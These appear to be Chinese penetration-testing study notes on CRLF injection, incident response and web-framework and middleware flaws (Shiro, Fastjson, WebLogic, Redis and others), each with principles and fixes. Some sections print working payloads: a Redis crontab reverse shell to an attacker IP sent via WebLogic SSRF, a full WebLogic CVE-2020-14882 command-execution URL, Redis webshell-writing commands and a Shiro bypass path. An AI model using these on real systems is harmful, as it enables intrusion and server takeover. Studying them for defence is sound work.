在HTTP规范中，行应该使用CRLF来结束，【首部】和【主体】由两个CRLF分隔
危害
伪造HTTP响应头
系统文件中存在CRLF漏洞则会导致任意命令执行
结合其他漏洞会产生更加严重的危害
- 利用
- 通过修改HTTP参数或URL，注入恶意的CRLF，查看构造的恶意数据是否在响应头中输出。
结合xss
http://ip/8080/url=%0d%0a%0d%0a<img src=1 onerror=alert(xss)>/
- 测试方法
- 抓包，在请求行的url参数中加入特殊构造的CRLF字符， xxx.com%0d%0aSet-Cookie:crlf=true
- 查看恶意数据是否在响应头中输出
- 如果响应首部中多了个Set-Cookie字段。这就证实了该系统存在CRLF注入漏洞
修复
过滤 \r 、\n 之类的行结束符，避免输入的数据污染其他 HTTP 首部字段。
应急响应
- 流程
收集信息：收集客户信息和中毒主机信息，包括样本
信息收集主要是做：流量、日志、可疑进程的内存、失陷系统镜像、恶意样本、客户资产收集、资产相关漏洞测试报告、防御设备的日志
- 判断类型：判断是否是安全事件，何种安全事件，勒索、挖矿、断网、DoS等等 事件类型分为7类：大规模沦陷、挖矿病毒、勒索病毒、无文件落地、不死（顽固）马、钓鱼应急响应、数据劫持
- 深入分析：日志分析、进程分析、启动项分析、样本分析
- 清理处置：直接杀掉进程，删除文件，打补丁，抑或是修复文件。
- 产出报告：整理并输出完整的安全事件报告。
- D盾查找webshell—看日志
win排查：
查看开机启动项
进程查看：netstat -ano
挖矿漏洞如何排查
- 问题现象:
- CPU的使用率一直100%
- 服务器卡顿，无法正常使用
- 疑似原因:
- 系统密码较弱被破解
- 安装的程序有漏洞被不法分子利用
- 等等
排查步骤
- 使用top命令观察占用cpu程序的PID
- 通过PID查看该程序所在的目录：ls proc/XXX
- 执行 ll /proc/14202 查看该程序运行的目录
- 进入该目录并进行查看都有哪些文件
- 将这些文件的权限全部修改成000，使这些程序无法继续执行：chmod 000 -R *
- 以上基本可以找出恶意程序所在的目录了，接着我们将该程序 kill 掉即可:kill -9 PID
定时任务排查 1. 查看定时任务是否存在文件：crontab -l 2. 清空定时任务并且分析木马脚本：crontab -r 服务器做安全加固：比如更改默认远程端口、配置防火墙规则、设置复杂度较高的密码等方法
内存码如何排查
如果是jsp注入，日志中排查可疑jsp的访问请求。
如果是代码执行漏洞，排查中间件的error.log，查看是否有可疑的报错，判断注入时间和方法
根据业务使用的组件排查是否可能存在java代码执行漏洞以及是否存在过webshell，排查框架漏洞，反序列化漏洞。
如果是servlet或者spring的controller类型，根据上报的webshell的url查找日志（日志可能被关闭，不一定有），根据url最早访问时间确定被注入时间。
如果是filter或者listener类型，可能会有较多的404但是带有参数的请求，或者大量请求不同url但带有相同的参数，或者页面并不存在但返回200
内网渗透流程
信息收集：识别内网存活的主机 IP， 运行端口扫描和漏洞扫描获取可以利用的漏洞
漏洞验证/漏洞攻击：
后渗透
日志清理
框架漏洞
Struts2 RCE 漏洞
struts2是第二代基于MVC模型**Java企业级web应用框架**，成为国内外较为流行的容器软件中间件,用于Java Web应用程序。
原理
把用户的输入带入到 OGNL表达式 %{value} 解析并执行
利用方式
%{payload}
如何判断
1、通过页面回显的错误消息来判断，页面不回显错误消息时则无效。
2、通过网页后缀来判断，默认.cation，有些人会改成.do 有可能不准。
3、判断 /struts/webconsole.html 是否存在来进行判断，需要 devMode 为 true。
其它的方法：通过 actionErrors。要求是对应的 Action 需要继承自 ActionSupport 类。
利用方法：如原始 URL 为 https://threathunter.org/%E5%88%99%E6%A3%80%E6%B5%8B%E6%89%80%E7%94%A8%E7%9A%84 URL 为 https://threathunter.org/?actionErrors=1111
如果返回的页面出现异常，则可以认定为目标是基于 Struts2 构建的。异常包括但不限于以下几种现象：
1、 页面直接出现 404 或者 500 等错误。
2、 页面上输出了与业务有关错误消息，或者 1111 被回显到了页面上。
3、 页面的内容结构发生了明显的改变。
4、 页面发生了重定向。
修复建议
升级 Struts2 版本
struts2 docker-vulhub 使用方法
cd /Users/x/vulhub/struts2/选择相应漏洞 docker-compose build //编译靶场环境 docker-compose up -d //启动整个环境 http://youip:8080/index.action //访问漏洞页面 docker-compose down //测试完毕之后,即可结束服务，使环境变为初始状态。
Shiro 框架漏洞
Apache Shiro是企业常见的JAVA安全框架，执行身份验证、授权、密码和会话管理。只要rememberMe的AES加密密钥泄露，无论shiro是什么版本都会导致 反序列化漏洞
- shiro-550、Shiro-721的区别：
- 加密方式不同 （cbc模式每次加密的结果都会影响到下一次）
- 721需要登录获取有效的cookie，550不需要
shiro721出网协议：
jndi，ldap，rmi
Apache Shiro反序列化漏洞（Shiro-550 CVE-2016-4437)（Shiro < 1.2.5）
原理
Shiro550：使用已知密钥（不需要登录）
在Shiro框架下，用户登陆成功后会生成一个经过加密的Cookie。其Cookie的Key的值为RememberMe，Value的值是经过序列化、AES加密和Base64编码后得到的结果。AES的加密密钥为硬编码，导致攻击者可以构造恶意数据造成反序列化RCE漏洞
在服务端接收cookie值时，按以下步骤解析：
检索RemeberMe cookie的值 > Base 64解码> 使用ACE解密（加密密钥硬编码）> 进行反序列化操作（未作过滤处理）
漏洞特征
在请求包的Cookie中为 remeberMe字段赋任意值
在返回包的 Set-Cookie 中存在 rememberMe=deleteMe 字段
防御
shiro升级到1.2.5版本及以上版本
但是可能升级了shiro版本仍然存在反序列化漏洞，其原因是因为我们使用了别人的开源框架，他们在代码里会配置shiro的密钥，如果使用了开源的框架，而没有修改shiro的密钥，其实这就相当于你使用的shiro密钥已经泄露，如果使用大量的密钥集合进行轮流尝试，是非常危险的
shiro-721
通过 AES-128-CBC 模式加密,易受到Padding Oracle攻击
通过改变密文值来达到改变经服务器端AES解密后的数据（128是指密钥长度,CBC是指 “密码分组链接” 加密模式）
利用工具生成恶意的rememberMe cookie，使用这个cookie替换原数据包中的cookie。然后登陆进服务器看，会发现/tmp目录下被创建了一个123文件 （ysoserial.jar（java反序列化利用工具））
使用登录后rememberMe={value}去爆破正确的key值进而反序列化（需要登录）
测试流程
访问登录页面，登录
请求account页面，只需要抓包时能获取到rememberMe=xxx都可
利用exp爆破payload的加密密文
获取密文后对之前请求的页面以rememberMe=xxx的格式重放
获取到命令执行结果
因为时间太长，不适用于实际环境的测试
权限绕过漏洞（CVE-2020-1957）
- Shiro中常见的拦截器
- anon 为匿名拦截器，不需要登录就能访问，一般用于静态资源,或者移动端接口
- authc 为登录拦截器，需要登录认证才能访问的资源。
原理
主要是因为 shiro 拦截器先于spring boot执行，并且 shiro和spring处理url的不一致导致的，而spring在请求处理过程中会去除/./和/;xxxasxdasd/中的内容，通过这种方式变形的url可能和shiro配置的filter不一致，导致了权限绕过。
/xxx/..;/admin/ 可以绕过Shiro中对目录的权限限制
防御
尽量避免使用*通配符作为动态路由拦截器的URL路径表达式
升级shiro至1.5.2版本以上
Fastjson 反序列化漏洞（是一个 Java 库）
可以将 Java 对象转换为 JSON 格式，也可以将 JSON 字符串转换为 Java 对象
原理
在处理json对象的时候，未对 @type 字段进行完全的安全性验证，攻击者可以传入危险类，并调用危险类连接远程rmi主机，通过其中的恶意类执行代码。
攻击者可以传入一个恶意构造的JSON内容，程序对其进行反序列化后得到恶意类并执行了恶意类中的恶意函数，进而导致代码执行
fastjson指纹信息
有报错回显： 不闭合花括号判断：在报错中往往存在 fastjson 的字段
无报错回显： Dnslog判断：{"@type":"java.net.Inet4Address","val":"dnslog"}
- 利用
- 新建 Exploit.java，反弹shell命令在代码内
- 编译成 Exploit.class
- 开启三个监听
- 第一个 使用python3开启一个临时服务，然后把编译好的Exploit.class文件放至web目录下，使浏览器访问会下载
- 第二个 服务器使用工具marshalsec开启LDAP服务监听：
- 第三个 开启nc监听设定的端口
- 访问fastjson页面使用Burp抓包，构造数据包修改为POST请求，使用EXP
- 发送后可以看到nc监听窗口成功得到shell
thinkphp (RCE漏洞)

ThinkPHP 2.x 任意代码执行漏洞
原理：ThinkPHP 2.x版本中，使用preg_replace的/e匹配路由，导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。
Thinkphp5-5.0.22/5.1.29远程执行代码漏洞 (控制器名未过滤导致rce)
原理：框架错误地处理了控制器名称，如果网站未启用强制路由（默认设置），则会导致RCE漏洞。
Thinkphp5 5.0.23远程执行代码漏洞 (核心类Request远程代码执行漏洞)
原理：框架在获取method的方法中没有正确处理方法名，使攻击者可以调用Request类的任何方法，攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞
Thinkphp5 SQL注入漏洞和敏感信息泄露漏洞
原理：传入的某参数在绑定编译指令时没有安全处理，预编译的时候导致SQL异常报错。然而thinkphp5默认开启debug模式，在漏洞环境下构造错误的SQL语法会泄露数据库的账号和密码
spring （RCE）
最新漏洞 （CVE-2022-22965）
通过 数据绑定 的方式引发远程代码执行 (RCE) 攻击漏洞，触发的前提条件如下：
- JDK 9+
- Apache Tomcat（war 包部署形式）
- Spring MVC/ Spring WebFlux 应用程序
利用方式
- 通过修改tomcat日志保存的文件名、后缀、路径等信息，写入一句话木马
spring特征：
- icon图标是一个 小绿叶子
- 看报错页面
- wappalyzer插件识别
- f12看X-Application-Context头
Spring Security OAuth2 远程命令执行（CVE-2016-4977）
构造恶意 SpEL 表达式 触发远程代码执行漏洞。
需要知道账号密码的前提下才可以利用该漏洞
老漏洞：大部分是存在 SpEL 表达式注入
中间件漏洞
如何识别中间件
- URL报错信息
- 查看返回包web Server字段
- 插件：W3Techs
- 端口判断：
中间件包括
- IIS：解析漏洞，PUT漏洞，短文件名猜解，远程代码执行
- Apache：解析漏洞，目录遍历
- Nginx：解析漏洞，
- Tomcat：PUT方法任意文件上传，远程代码执行，war后门文件部署
- JBoss：反序列化漏洞，war后门文件部署
- WebLogic：反序列化漏洞，SSRF，任意文件上传，war后门文件部署
其他中间件相关漏洞
- fastCGI 未授权访问，任意命令执行
- PHPCGI 远程代码执行
Tomcat漏洞 (8080/8089)
漏洞类型
1、Tomcat后台弱口令上传war包
2、Tomcat的PUT的上传漏洞(CVE-2017-12615)
3、Tomcat反序列化漏洞(CVE-2016-8735)
4、Tomcat之JMX服务弱口令漏洞
5、Tomcat 样例目录session操控漏洞
6、Tomcat本地提权漏洞(CVE-2016-1240)
7、Tomcat win版默认空口令漏洞(CVE-2009-3548)
Tomcat的PUT方法任意文件上传漏洞(CVE-2017-12615)
原理
由于ApacheTomcat服务组件中开启了http的Put方法所造成的攻击者可以利用该方法任意上传jsp木马所造成的远程代码执行漏洞。该漏洞所影响的版本从ApacheTomcat7.0.0-7.0.79
上传方法：
- /在文件名中是非法的，会被去除(Windows/Linux)
- 文件后缀加上::$DATA (Windows)
- 空格 windows下不允许文件以空格结尾，上传到windows会自动去掉末尾空格（Windows）
修复建议：
- readonly 改为 true
JBOSS漏洞 (8080/8089)
- 反序列化漏洞
- 控制台未授权访问
- 弱口令
5.x/6.x 反序列化漏洞（CVE-2017-12149）
原理
该漏洞位于JBoss的HttpInvoker组件中的ReadOnlyAccessFilter过滤器中，其 doFilter方法在没有进行任何安全检查和限制的情况下尝试将来自客户端的序列 化数据流进行反序列化，导致攻击者可以通过精心设计的序列化数据来执行任意 代码。攻击者利用该漏洞无需用户验证在系统上执行任意命令，获得服务器的控 制权。
weblogic漏洞 (7001/7002-java反序列化/控制台弱口令)
#控制台路径泄露 Weakpassword #SSRF： CVE-2014-4210 #JAVA反序列化：Weblogic 默认开启 T3 协议，攻击者可利用T3协议进行反序列化漏洞实现远程代码执行 CVE-2015-4852 CVE-2016-0638 CVE-2016-3510 CVE-2017-3248 CVE-2018-2628 CVE-2018-2893 #任意文件上传 CVE-2018-2894 #XMLDecoder反序列化： CVE-2017-10271 CVE-2017-3506
ssrf
SSRF漏洞存在于http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp
原理
漏洞出现在uddi组件（所以安装Weblogic时如果没有选择uddi组件那么就不会有该漏洞）
Weblogic的SSRF有一个比较大的特点,其虽然是一个”GET/POST”请求,但是我们可以通过传入【%0D%0A】来注入换行符,redis是通过换行符来分隔每条命令,在这里我们可以通过该SSRF攻击内网中的redis服务器
利用：通过redis写任务计划反弹shell
靶机：192.168.0.101
Redis容器：172.19.0.2
Kali：192.168.0.104
1.利用 gopherus 生成 payload gopherus.py --exploit fastcgi test set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/要监听的kali的IP/1919 0>&1\n\n\n\n" config set dir /etc/ config set dbfilename crontab save aaa 将这三条命令进行URL编码，然后在换行的地方加上【%0D%0A】 test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.104%2F1919%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
然后在kali上开启监听的端口， 输入命令: nc -lvnp 1919, 反弹shell
- 漏洞修复
- 将SearchPublicRegistries.jsp直接删除就好了
- 修改后缀：把 jsp 改为 jspx
任意文件读取、口令破解、文件上传
Weblogic前台存在任意文件读取漏洞，weblogic密码使用AES加密，找到用户的密文与加密时的密钥即可解密，可登录Weblogic后台
- 利用
任意文件读取
- 上传一句话 jsp war包 拿shell
- 弱口令 (weblogic/Oracle@123)
利用流程
weblogic密码使用AES加密，对称加密可解密，只需要找到用户的密文与加密时的密钥即可；
这两个文件均位于base_domain下，名为 SerializedSystemIni.dat 和 config.xml；
SerializedSystemIni.dat是一个二进制文件，所以一定要用burpsuite来读取，用浏览器直接下载可能引入一些干扰字符。在burp里选中读取到的那一串乱码，这就是密钥，右键copy to file就可以保存成一个文件：
然后利用解密工具得到密码
CVE-2020-14882/14883 远程代码执行(未授权登录)
14882+14883组合拳，14882做一个未授权访问，登到控制台，然后通过14883命令执行，写一个xml文件把命令写进去，让它去访问你的vps然后加载xml
未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。它们均存在于WebLogic的Console控制台组件中。
此组件为WebLogic全版本默认自带组件，且该漏洞通过HTTP协议进行利用。将CVE-2020-14882和CVE-2020-14883进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限。
绕过后台登录 POC
/console/images/%252E%252E%252Fconsole.portal
利用poc进入shell环境
1，进入登录后台 /console 2，尝试登录，并进行抓包 利用Burp的重放模块进行验证 poc：运用post提交方式,达到命令执行 /console/css/%252e%252e%252fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();
CVE-2018-2894 任意文件上传
WebLogic管理端未授权的两个页面存在任意上传getshell漏洞，可直接获取权限
相关地址： http://127.0.0.1:7001/ws_utc/config.do http://127.0.0.1:7001/ws_utc/begin.do
- 利用：
- 打开：http://127.0.0.1:7001/ws_utc/config.do%E9%A1%B5%E9%9D%A2
设置当前工作目录
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css
- 上传JSP木马抓包-返回包查看时间戳
- 蚁剑链接（密码为JSP木马文件内写的密码） http://127.0.0.1:7001/ws_utc/css/config/keystore/1650981850787_777.jsp
反序列化命令执行漏洞（CVE-2018-2628）
原理
基于T3(丰富套接字)协议的反系列化高危漏洞，其基本原理其实都是利用了T3协议的缺陷实现了Java虚拟机的RMI：远程方法调用(Remote Method Invocation)，能够在本地虚拟机上调用远端代码。
- 利用流程
namp扫描端口，确认开放了T3协议
nmap -n -v -p7001,7002 192.168.10.129 –script=weblogic-t3-info
- 使用CVE-2018-2628漏洞检测工具，对目标主机进行检测，确认存在漏洞
- 在Ubuntu主机上运行JRMPListener开启端口监听。ysoserial-0.1-cve-2018-2628-all.jar
- 使用ysoserial-0.1-cve-2018-2628-all.jar工具生成一个payload字符串
- 将Payload字符串复制到weblogic_poc.py文件中替换PAYLOAD
- 更改文件末尾的dip变量的值为目标服务器（Weblogic所在服务器）的ip地址
- 执行weblogic_poc.py开始漏洞利用 python2 weblogic_poc.py
XMLDecoder反序列化（CVE-2017–10271）
主要是由WebLogic Server WLS组件远程命令执行漏洞，主要由wls-wsat.war触发该漏洞，触发漏洞url如下： http://192.168.xx.xx:7001/wls-wsat/CoordinatorPortType
post数据包，通过构造构造SOAP（XML）格式的请求，在解析的过程中导致XMLDecoder反序列化漏洞
- 利用过程
- 访问 http://30.139.130.23:7001/wls-wsat/CoordinatorPortType11 抓包
- 请求头需要添加 Content-Type: text/xml 字段
- 改成POST，构建poc，反弹shell 修改需要监听的IP和端口，攻击机kali开启监听，发包
- 监听成功反弹shell，在之前的poc基础之上继续构建写入shell，发送
- 访问shell，成功 http://30.139.130.23:7001/bea_wls_internal/test.jsp
服务漏洞
redis数据库（6379-未授权访问/爆破）
命令
cd 到redis目录下
redis-server redis.conf //启动redis服务
Redis默认端口号：
6379：默认配置端口号
26379：sentinel.conf配置器端口
Redis，是一个使用ANSI C编写的开源、支持网络、基于内存、分布式、可选持久性的键值对存储数据库，属于NoSQL数据库类型。与传统数据库不同的是 **Redis 的数据存于内存中**，所以读写速度非常快，被广泛应用于缓存方向。Redis 与其他 key - value 缓存产品有以下三个特点：
Redis支持数据的持久化，可以将内存中的数据保存在磁盘中，重启的时候可以再次加载进行使用。
Redis不仅仅支持简单的key-value类型的数据，同时还提供list，set，zset，hash等数据结构的存储。
Redis支持数据的备份，即master-slave模式的数据备份。
- 漏洞类型
- redis未授权访问写入webshell
- redis密钥登录ssh
- 利用计划任务反弹shell
- 远程主从复制RCE
- 本地主从复制RCE反弹shell
Redis未授权访问写webshell
步骤
通过未授权登陆进Redis，写入木马至网站路径下 redis-cli -h 192.168.3.134 *连接Redis config set dir /var/www/html *设置要写入shell的路径 set xxx "\n\n\n<?php phpinfo() ;?>\n\n\n" *写入phpinfo()到xxx键 config set dbfilename phpinfo.php save 访问http://192.168.69.130/phpinfo.php，蚁剑链接
利用条件：
1.知道网站绝对路径，并且需要增删改查权限
2.root启动redis
3.redis弱密码或者无密码
Redis写入 ssh-keygen 公钥登录
攻击机上生成rsa公钥和私钥，将公钥传至靶机上，通过ssh登陆
利用条件：
1、root权限
2、开启了ssh密钥登录，存在/etc/.ssh文件
远程主从复制RCE
原理：
是指将一台 Redis 服务器的数据，复制到其他的 Redis 服务器
前者称为主节点(master)，后者称为从节点(slave)
数据的复制是单向的，只能由主节点到从节点，从机只负责读，主机只负责写
默认情况下，每台Redis服务器都是主节点，且一个主节点可以有多个从节点(或没有从节点)，但一个从节点只能有一个主节点，从节点也可以设置为其他节点的主节点，此时就达成了一个集群
- 主从复制的作用
- 数据备份
读写分离
主机只负责写, 从机只负责读
命令： 配置主节点IP和端口： slaveof：6380节点成为6379的从节点 例如：redis-6380 > slaveof 127.0.0.1 6379 取消复制： slave of on one ：6380节点不希望成为6379的从节点 例如：redis-6380 > slaveof on one
计划任务反弹shell（weblogic SSRF）
redis防御
- 限制登录IP
- 修改默认端口
- 添加密码
- 禁止以root权限启动
RDP 远程桌面连接（3389）
Ms12-020
Ms08-067
ms09-001
防御：
- 禁用远程桌面服务
- 在防火墙中对远程桌面服务端口(3389)进行阻断
- 在开启了远程桌面服务的服务器上启用网络身份认证
无法连接服务器的3389端口的几种情况
- 3389端口处于关闭状态
- 默认端口被修改
- 防火墙拦截
- 管理员设置了权限，制定用户才能连接3389
phpmyadmin漏洞
文件包含（CVE-2018-12613）
条件：
攻击者必须拥有后台权限
phpMyAdmin 4.8.0 和 4.8.1 均受漏洞影响
步骤：
把WebShell写入到数据库中，然后包含数据库文件getshell，
如果把WebShell当做数据表的字段值是可以完美的写入到数据库文件当中的**
利用：
把 ? url编码为 %253f 即可绕过验证
urldecode()函数是对已编码的URL进行解码。
由于PHP本身在处理提交的数据之前会进行一次解码，例如/test.php?id=1这个URL，我们构造字符串/test.php?id=1%2527，PHP第一次解码，%25解码成了%，于是url变成了/test.php?id=%27；然后urldecode()函数又进行了一次解码，%27解码成了’，于是最终URL变成了/test.php?id=1’
- 防御
- 在建站的过程中，非必须的情况下设置allow_url_include和allow_url_fopen为关闭；
- 如果需要文件包含，应对包含的文件进行限制，使用白名单方式或设置可包含目录，如open_basedir；
- 对用户输入进行严格检查，参数中不允许出现../之类的目录跳转符；
- 严格检查include类的文件包含函数中的参数是否外界可控。
安全设备
IDS：入侵检测
IPS：入侵检测 入侵防御
动态感知